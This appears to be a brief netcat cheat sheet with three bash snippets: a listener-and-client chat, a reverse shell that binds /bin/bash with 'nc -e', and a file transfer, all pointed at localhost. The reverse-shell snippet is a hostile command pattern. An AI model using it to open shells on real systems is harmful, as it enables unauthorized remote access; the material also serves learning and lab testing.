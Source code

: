 ## bash(chat)
```
# server
nc -lvp 8888

# client
nc 127.0.0.1 8888
```

## bash(reverse_shell)
```
# server
nc -lvp 8888

# client
nc 127.0.0.1 8888 -e /bin/bash
```

## bash(file_download)
```
# server
nc -lvp 8888 > /tmp/output.txt

# client
nc 127.0.0.1 8888 < /tmp/input.txt
```
